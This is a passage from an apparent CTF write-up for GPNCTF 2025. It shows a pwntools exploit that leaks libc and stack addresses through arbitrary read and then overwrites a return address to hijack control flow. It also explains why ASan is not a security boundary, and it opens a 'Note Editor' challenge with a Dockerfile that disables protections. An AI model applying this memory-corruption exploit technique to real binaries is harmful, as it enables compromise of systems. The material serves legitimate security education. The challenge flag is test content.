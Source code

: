 ```python
exe.address = win_addr - 0x1309
log.info(f'exe base: {hex(exe.address)}')

# Leak libc address
puts_addr = read(hex(exe.got['puts']))
log.info(f'puts_addr: {hex(int(puts_addr, 16))}')

# Compute libc base
libc.address = int(puts_addr, 16) - 0x265a12
log.info(f'libc base: {hex(libc.address)}')

# Leak stack address
environ_addr = libc.symbols['environ']
log.info(f'environ_addr: {hex(environ_addr)}')

# Compute return address
rip_addr = int(read(hex(environ_addr)), 16) - 0x130

# Hijack the control flow
write(hex(rip_addr), hex(win_addr + 0xa))

# Trigger the win function
exit()

io.interactive()
```

![Untitled](/CTF/gpnctf25-8.png)

> GPNCTF{all_WR1te5_4Re_PrO7EcteD_By_AsaN_oN1Y_in_Y0UR_dreamS_9438}
> 

Wrapping up, **ASan** is a debugging tool, not a security boundary. It helps developers catch bugs during testing, but it's not reliable for protecting a binary against exploitation. Arbitrary read/write breaks the entire threat model that **ASan** operates under.

![Running-Away-Balloon(1).jpg](attachment:44def19c-f123-4111-9c31-01886ac98ce7:Running-Away-Balloon(1).jpg)

## Note Editor

![Untitled](/CTF/gpnctf25-9.png)

Not much to take away from this description but it seems to be some sort of note-taking app.

![Untitled](/CTF/gpnctf25-10.png)

Everything seems disabled wasn’t expecting less from an entry level challenge.

From this line in the challenge's **Dockerfile**, we can see that `lib.c` and `main.c` are compiled together into a single executable.

```docker
RUN gcc lib.c main.c -o chall -fno-stack-protector -fno-pie -no-pie
```
